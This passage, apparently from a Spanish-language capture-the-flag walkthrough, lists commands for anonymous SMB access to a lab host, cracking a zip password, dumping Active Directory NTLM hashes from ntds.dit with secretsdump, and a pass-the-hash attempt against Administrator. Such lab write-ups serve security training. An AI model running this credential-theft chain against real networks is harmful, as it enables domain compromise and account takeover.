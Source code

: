```bash
smbclient -L dead:beef::b885:d62a:d679:573f -N
```

Vemos un directorio backup. Miramos si nos podemos connectar.

```bash
smbclient //dead:beef::b885:d62a:d679:573f/backup -N
dir
get backup.zip
```

Aqui hay un backup.zip y lo descargamos a nuestro equipo de atacante. Si intentamos unzipear el archivo vemos que esta protegido por contraseña.

### Crackeando la contraseña con fcrackzip {-}

```bash
fcrackzip -b -D -u -p /usr/share/wordlists/rockyou.txt backup.zip
```

Aqui podemos ver la contraseña.

```bash
unzip backup.zip
```

Aqui podemos ver que tenemos un **ntds.dit** y un **SYSTEM**. Esto quiere decir que podemos jugar con **SecretsDump**

### SecretsDump {-}

Teniendo un ntds.dit y un SYSTEM, podemos pillar los hashes NTLMv2 de los usuarios del Directorio Activo. Como lo hacemos desde nuestra
maquina local, tenemos que ponerle un **LOCAL** al final.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
```

Aqui recuperamos un monton de informacion. Vamos a tratar de recojer unicamente la informacion que nos interesa. Vemos que todo los usuarios tienen un 
hash **aad3b435b51404eeaad3b435b51404ee**.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL | grep "aad3b435b51404eeaad3b435b51404ee" > data
```

Intentamos un pass the hash con el usuario Administrator

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'Administrator' -H '2b576acbe6bcfda7294d6bd18041b8fe'
```

Vemos que no podemos hacer pass the hash a todos los usuarios, Tenemos que recuperar un listado de usuarios validos.
